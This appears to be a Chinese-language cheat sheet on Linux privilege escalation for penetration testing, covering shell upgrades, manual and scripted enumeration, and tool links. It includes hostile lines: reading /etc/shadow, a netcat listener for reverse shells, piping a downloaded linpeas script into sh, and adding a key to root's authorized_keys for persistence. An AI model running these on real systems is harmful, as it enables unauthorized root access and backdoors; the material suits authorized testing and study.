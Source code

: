 # Linux提权小记

## 运行 Linpeas 脚本以枚举远程服务器

```
    ./linpeas.sh
```

## 切换完整 Bash

```
python3 -c 'import pty;pty.spawn("/bin/bash");'

CTRL + Z
stty raw -echo
fg
export TERM=xterm-color

OR

rlwrap nc -lvnp <port>
```

## 手工枚举

```
id：显示当前⽤户的 UID（⽤户 ID）、GID（组 ID）以及所属的其他组的信息
who：显示当前登录的⽤户及相关信息，如登录时间、终端等
whoami：显示当前⽤户的⽤户名
w：提供关于当前登录⽤户的详细信息，包括他们在做什么以及系统的负载信息
last:：显示系统最近的登录记录
```


```
uname -a：为我们提供关于系统使⽤的内核的附加详细信息。在寻找可能导致提权的任何潜在内核漏洞时，这将⾮常有⽤
lsb_release -a：这个命令⽤于显示Linux标准基础（LSB）的发⾏信息。 -a 选项表示显示所有
可⽤信息。它将显示诸如发⾏编号、发⾏名称、发⾏描述等信息
cat /proc/version ：这个命令⽤于显示内核版本和编译信息。 /proc/version ⽂件包含了内核
版本、编译器版本和其他相关信息。要查看是否安装了GCC就可以⽤这条命令
cat /etc/issue：这个命令⽤于查看系统的发⾏版本信息。 /etc/issue ⽂件包含了操作系统发⾏版的名称和版本
cat /etc/*-release：这个命令⽤于查看系统发⾏版的详细信息。它会搜索 /etc/ ⽬录下所有以
-release 结尾的⽂件，并显示它们的内容。这些⽂件通常包含操作系统的发⾏名称、版本、代号等信息
```


```
ip a:旧版命令ifconfig,这些命令为我们提供有关⽹卡、⽹络配置的信息。多张⽹卡配合路由信息可以发现内⽹⽹段
ip route：⽤于查询路由表，route是过时的命令
ip neigh：⽤于查询邻居表
arp -a：则⽤于显示ARP缓存，有些⼈⽤它作内⽹主机发现
```


```
hostname:查看机器主机名，新版内核linux可以用hostnamectl
```


```
getcap -r / 2>/dev/null:关于Linux capabilities ，它为进程提供了⼀部分可⽤的 root 权限
⼦集。有效地将 root 权限划分成较⼩且独特的单元。然后，可以独⽴地将这些单元授予进程。这样，权限集合就会减少，降低了被利⽤的⻛险
```


```
ls -liah:列出详细隐藏信息
history:历史记录
```


```
cat /etc/passwd
cat /etc/shadow
cat /etc/crontab:自动任务
echo $PATH
env:环境变量
ps -ef:查看进程
ps axjf ：查看进程树
```


```
netstat -a ：显示所有正在监听的端⼝和已建⽴的连接。
netstat -at 或 netstat -au 也可⽤于分别列出TCP或UDP协议。
netstat -l ：列出处于“监听”模式的端⼝。这些端⼝是打开的，并准备接受传⼊的连接。
可以将其与“t”选项⼀起使⽤，仅列出使⽤TCP协议监听的端⼝
netstat -s ：按协议列出⽹络使⽤统计数据（如下所示）也可以与 -t 或 -u 选项⼀起使⽤以限制
输出到特定协议
netstat -tp ：列出服务名称和PID信息的连接。
netstat -i ：显示接⼝统计信息。我们在下⾯看到“eth0”和“tun0”⽐“tun1”更活跃
```


```
find / -perm -u=s -type f 2>/dev/null ：查找设置了SUID位的⽂件，这使我们可以以⽐当前⽤
户更⾼的特权级别运⾏⽂件
```


```
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp tmux
screen 2>/dev/nul
```
![[Pasted image 20250504164902.png]]

```
cat /etc/fstab:检测未挂载的⽂件系统
```




## 自动化枚举

### LinPEAS

全称为 Linux Privilege Escalation Awesome Script ，是⼀个⽤来搜索类 unix 主机上可能
的提权路径的⾃动化脚本。

Github：https://github.com/peass-ng/PEASS-ng

```
curl -L https://github.com/carlospolop/PEASSng/releases/latest/download/linpeas.sh | sh
```

### LinEnum

⼀个流⾏的 Linux 本地枚举脚本，⽤于收集有关系统的各种信息，识别不安全的配置，
提取可⽤于提升权限的漏洞信息

Github：https://github.com/rebootuser/LinEnum

### linux-smart-enumeration （lse）

这是⼀个具有模块化功能的 Linux 本地枚举脚本它可在不同的等级上运⾏以获取不同详细程度的信息

Github：https://github.com/diego-treitos/linux-smart-enumeration

### linux-exploit-suggester

该⼯具主要⽤于识别 Linux 系统中可能存在的可利⽤的漏洞，
以帮助⽤户提升权限。

Github：https://github.com/The-Z-Labs/linux-exploit-suggester

### Linuxprivchecker

⼀个⽤于检查 Linux 系统潜在安全问题的 Python 脚本，
包括⽂件权限、系统服务和 SUID ⼆进制⽂件等。 

Github：https://github.com/sleventyeleven/linuxprivchecker

### unix-privesc-check

这个脚本主要⽤于识别 类UNIX 系统中可能的权限升级路径，
通过检查⽂件权限、系统配置等⽅⾯的问题

Github：https://github.com/pentestmonkey/unix-privesc-check


## 非对称加密

-  创建新的SSH密钥

```
    ssh-keygen -f key
```

-  将生成的公钥添加到用户

```
    echo "ssh-rsa AAAAB...SNIP...M= enil@aaa">> /root/.ssh/authorized_keys
```
-  使用生成的私钥SSH连接到服务器

```
    ssh root@10.10.10.10 -i key
```
-  枚举脚本

```
	PEASS
```

